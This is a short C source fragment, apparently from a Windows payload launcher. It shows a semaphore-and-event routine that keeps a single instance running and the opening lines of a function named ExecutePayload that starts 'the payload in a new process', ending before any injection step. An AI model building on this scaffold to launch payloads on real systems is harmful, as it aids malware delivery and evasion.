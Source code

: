 ```c
	HANDLE hEvent = NULL;
	SECURITY_ATTRIBUTES SecurityAttributes;

	// step 1: define security attributes that permit handle inheritance
	SecurityAttributes.nLength = sizeof(SECURITY_ATTRIBUTES);
	SecurityAttributes.lpSecurityDescriptor = NULL;
	SecurityAttributes.bInheritHandle = TRUE;

	do {
		// step 2: create a semaphore to synchronize this routine
		if ((hSemaphore = CreateSemaphoreA(&SecurityAttributes, 1, 1, szSyncNameS)) == NULL) {
			// if the semaphore creation fails, break out using the default TRUE result, this shouldn't happen
			break;
		}

		bResult = FALSE;
		// step 3: acquire the semaphore, if the operation timesout another instance is already running so exit
		if (WaitForSingleObject(hSemaphore, 0) == WAIT_TIMEOUT) {
			break;
		}
		bRelease = TRUE;

		// step 4: check if the event already exists
		if (hEvent = OpenEventA(READ_CONTROL | SYNCHRONIZE, TRUE, szSyncNameE)) {
			// if the event already exists, do not continue
			CloseHandle(hEvent);
			break;
		}

		// step 5: if the event does not already exist, create a new one that will be inherited by the child process
		if (hEvent = CreateEventA(&SecurityAttributes, TRUE, TRUE, szSyncNameE)) {
			bResult = TRUE;
		}
	} while (FALSE);


	// step 6: release and close the semaphore as necessary
	if (hSemaphore) {
		if (bRelease) {
			ReleaseSemaphore(hSemaphore, 1, NULL);
		}
		CloseHandle(hSemaphore);
	}
	// *do not* close the event handle (hEvent), it needs to be inherited by the child process
	return bResult;
}

void ExecutePayload(void) {
	int error;
	PROCESS_INFORMATION pi;
	STARTUPINFO si;
	CONTEXT ctx;
	DWORD prot;
	LPVOID ep;

	// Start up the payload in a new process
	inline_bzero( &si, sizeof( si ));
	si.cb = sizeof(si);

	if (Synchronize()) {
```